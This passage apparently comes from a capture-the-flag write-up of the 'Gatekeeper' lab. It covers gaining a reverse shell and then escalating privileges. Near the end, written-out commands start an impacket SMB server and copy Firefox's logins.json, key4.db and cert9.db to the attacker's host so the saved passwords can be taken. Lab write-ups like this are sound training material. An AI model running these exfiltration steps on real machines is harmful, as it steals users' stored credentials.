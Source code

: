 - ![image](https://user-images.githubusercontent.com/94720207/169709696-87d91e05-fb21-48de-9251-514b8770c053.png)

- The final victory, time to the real attack against the Gatekeeper Server, execute script!!!:

    - ![image](https://user-images.githubusercontent.com/94720207/169710594-dca8bb91-27a4-45bd-8475-28652151f88f.png)

- **Reverse shell user privileges gained from gatekeeper Server!!! It's done! :D** 

    - NOTE: Ignore the "root shell" message from my script hehe, it look cooler in scenarios where App is executed as root (as many apps hosted in servers in "real life") 

---

### Privilege Escalation

- After some Enummeration I found that the PrivEsc vector was using the firefox profile.

    - ![image](https://user-images.githubusercontent.com/94720207/169711913-df2264c8-6b38-46a5-a891-c8213b716535.png)
  
- **I will use this technique for PrivEsc that I've found for this scenario, the original writeup recomend to use Metasploit but I will do it manual OSCP style.**

    - https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data
    - https://www.howtogeek.com/69051/stupid-geek-tricks-hacking-the-firefox-profile-data-storage/

- To perform this PrivEsc I need the following files:

    1. `logins.json` and `key4.db` where passwords are stored
    2. `cert9.db` which contains all security certificate settings

- These files are stored under `%APPDATA%\Mozilla\Firefox\Profiles\`

    -  `cd %APPDATA%\Mozilla\Firefox\Profiles\`
    
    - ![image](https://user-images.githubusercontent.com/94720207/169714731-026afa4c-7ae7-4384-9064-b38dc7c0a791.png)

    - ![image](https://user-images.githubusercontent.com/94720207/169714810-1a16737c-b4c8-4c52-86ea-46afe9a10cde.png)

- Now, I need to send the files to my Kali machine, I will setup a `smb share` between `Gatekeeper Server` and `LHOST (Kali)`

- I will do a special directory for that share called `/gatekeeper_share` 
    
    - `/usr/share/doc/python3-impacket/examples/smbserver.py share .` 
        
    - ![image](https://user-images.githubusercontent.com/94720207/169715156-5417fb6f-d428-450d-83d3-cff933295081.png)

- Copy the files - From Windows to Kali via SMB:

    - `copy logins.json \\10.6.123.13\share` 
    - `copy key4.db \\10.6.123.13\share` 
    - `copy cert9.db \\10.6.123.13\share`

- ![image](https://user-images.githubusercontent.com/94720207/169715456-188fb4fd-d4f4-489d-980c-f0a45c6f3d08.png)
